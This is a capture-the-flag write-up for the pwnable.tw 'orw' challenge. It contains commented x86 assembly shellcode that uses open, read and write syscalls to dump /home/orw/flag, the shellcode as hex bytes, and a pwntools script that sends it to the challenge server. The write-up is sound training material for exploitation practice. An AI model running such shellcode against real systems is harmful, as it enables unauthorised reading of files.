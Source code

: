 # ORW
> LongChampion, 26/03/2020

## Ideal
Write a x86 shellcode that use `sys_open`, `sys_read` and `sys_write` to read the flag at `/home/orw/flag`

## Make a Shellcode
I have written this x86 assembly, all explaintations are "hardcode" in this :)
```
global _start

section .text
_start:
    xor     eax, eax
    push    eax                         ; "\0" for file name
    push    0x67616c66                  
    push    0x2f77726f
    push    0x2f656d6f
    push    0x682f2f2f                  ; hex of "/home/orw/flag" (in reversed order)
    mov     ebx, esp                    ; ebx = &filename
    xor     ecx, ecx                    ; ecx: flag = 0 = O_RDONLY
    xor     edx, edx                    ; edx: mode = 0 = O_RDONLY
    mov     al, 0x5                     ; eax = 0x5 = sys_open
    int     0x80

    mov     ebx, eax                    ; get file_descriptor (fd)
    add     esp, 0xffffff80             ; same as "sub $esp, 0x80" but don't have bytecode "\x00"
    mov     ecx, esp                    ; ecx = &buf
    xor     edx, edx
    mov     dl, 0x7f                    ; edx = 0x7f = 127 (number of bytes to read)
    xor     eax, eax
    mov     al, 0x3                     ; eax = 0x3 = sys_read
    int     0x80

    xor     ebx, ebx
    inc     ebx                         ; ebx = 1 = stdout
    mov     ecx, esp                    ; ecx = &buf
    xor     edx, edx
    mov     dl, 0x26                    ; edx = 0x26 = 38 (number of bytes to write out)
    xor     eax, eax
    mov     al, 0x4                     ; eax = 0x4 = sys_write
    int     0x80

    xor     eax, eax
    inc     eax                         ; eax = 0x1 = sys_exit
    xor     ebx, ebx                    ; ebx: exitcode = 0
    int     0x80

```
- How to assemble the assembly to bytecode? Go [here](https://defuse.ca/online-x86-assembler.htm#disassembly)
- Do not understand linux syscall and it argument? Go [here](https://syscalls.kernelgrok.com/)
- You can write your shellcode as well, and make sure that you avoid bytecode like `\x0a` and `\x00`
- I had have a flag, so I know that is 38 bytes in lenght, and I use it in the assembly for a clean output. If you don't know how long the flag is, you can assume that is 100 bytes in length.
- My shellcode use sys_exit, no problem, I still get flag normally.

## Final Solution
```python
#!/usr/bin/env python2

from pwn import *

shellcode =\
    "\x31\xC0\x50\x68\x66\x6C\x61\x67\x68\x6F\x72\x77\x2F\x68\x6F\x6D\x65\x2F" \
    "\x68\x2F\x2F\x2F\x68\x89\xE3\x31\xC9\x31\xD2\xB0\x05\xCD\x80\x89\xC3\x83"\
    "\xC4\x80\x89\xE1\x31\xD2\xB2\x7F\x31\xC0\xB0\x03\xCD\x80\x31\xDB\x43\x89"\
    "\xE1\x31\xD2\xB2\x26\x31\xC0\xB0\x04\xCD\x80\x31\xC0\x40\x31\xDB\xCD\x80"

r = remote("chall.pwnable.tw", 10001)
r.sendlineafter("shellcode:", shellcode)
print r.recvall()
r.close()
```
Run it and you will see that flag. Enjoy!!!
